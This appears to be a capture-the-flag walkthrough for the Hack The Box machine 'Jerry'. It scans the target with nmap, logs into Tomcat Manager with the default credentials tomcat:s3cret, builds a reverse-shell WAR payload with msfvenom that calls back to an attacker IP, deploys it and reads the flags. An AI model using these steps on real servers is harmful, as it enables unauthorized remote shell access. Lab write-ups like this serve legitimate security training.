










# [Jerry](https://app.hackthebox.com/machines/jerry)


```bash
nmap -p- --min-rate 10000 10.10.10.95 -Pn
```



After knowing open ports (8080), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p8080 10.10.10.95 -Pn 
```




After browsing the page, I go to default '/manager' endpoint of application where Tomcat Manager is located.

And I wrote default credentials for authentication.



that's tomcat: s3cret





Now, I need to create malicious `.war` file which gives me reverse shell via `msfvenom` command.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.8 LPORT=1337 -f war > dr4ks.war
```




I can learn my malicious `.jsp` file by typing `strings dr4ks.war`.




That's 'ftfpqwjqaqg.jsp' file which is malicious and I need to browse this.


Let's upload this malicious `.war` file into application.




Let's browse this malicious `.jsp` file.




I got reverse shell from port (1337).




I found flags located in this directory ' C:\Users\Administrator\Desktop\flags'

I read this file via by typing `type 2*`.


user.txt and root.txt


